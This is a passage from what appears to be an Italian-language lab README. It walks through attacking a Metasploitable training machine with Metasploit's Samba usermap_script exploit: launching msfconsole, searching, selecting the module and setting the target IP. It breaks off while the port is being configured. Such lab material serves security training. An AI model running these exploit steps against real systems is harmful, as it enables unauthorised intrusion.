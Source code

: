 ### 2. 💻 Attacco alla Macchina Metasploitable con Metasploit

1. **Avvio di MSFConsole**:
   
   ```bash
   msfconsole
   ```
2. **Ricerca dell'exploit appropriato**:
   - Comando:
     
     ```bash
     search samba
     ```
   - Trovato: **exploit/multi/samba/usermap_script** (indice: 15).
   - ![Screenshot della ricerca](./Screenshots/SearchSambaMetaspl.png)
3. **Selezione dell'exploit**:
   - Comando:
     
     ```bash
     use 15
     ```
   - ![Screenshot della selezione dell'exploit](./Screenshots/SambaUse15.png)
4. **Configurazione dei parametri dell'exploit**:
   - Impostazione dell'IP della macchina vittima:
     
     ```bash
     set RHOSTS 192.168.50.3
     ```
   - Impostazione della porta del servizio Samba:
     